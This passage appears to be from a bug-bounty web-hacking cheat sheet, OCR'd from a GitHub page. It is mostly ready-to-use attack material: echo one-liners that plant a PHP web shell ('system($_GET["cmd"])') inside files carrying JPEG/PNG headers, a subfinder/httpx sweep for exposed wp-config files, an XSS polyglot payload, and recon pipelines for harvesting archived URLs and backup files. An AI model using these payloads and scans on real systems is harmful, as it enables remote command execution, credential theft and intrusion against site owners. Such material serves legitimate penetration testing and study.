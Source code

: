 1. Access https://web.archive.org/
2. Type in the desired domain
3. Switch to the URL tab https://web.archive.org/web/*/https://<DOMAIN>*
4. Apply the filter `%40`

## waybackurls

> https://github.com/tomnomnom/waybackurls

```c
$ waybackurls <DOMAIN> | grep - -color -E "1.xls | \\.tar.gz | \\.bak | \\.xml | \\.xlsx | \\.json | \\.rar | \\.pdf | \\.sql | \\.doc | \\.docx | \\.pptx | \\.txt | \\.zip | \\.tgz | \\.7z"
```

## Web Shell / Malicious Images

```c
$ echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > <FILE>.jpg
$ echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > <FILE>.png
```

## Wordpress Configuration Disclosure

```c
$ subfinder -silent -d http://<DOMAIN> | httpx -silent -nc -p 80,443,8080,8443,9000,9001,9002,9003,8088 -path "/wp-config.PHP" -mc 200 -t 60
```

## Cross-Site Scripting (XSS)

### Ployglot Payload

Note that `HTML tags` that need to be closed for `XSS`.

```c
<!--
<title>
<textarea>
<style>
<noscript>
<xmp>
<template>
<noembed>
```

```c
--></title></textarea></style></noscript></script></xmp></template></noembed><svg/onload=alert()>
```

### Single Domain One-liner

```c
$ echo https://<DOMAIN>/ | gau | gf xss | uro | Gxss | kxss | tee <FILE>.txt
```

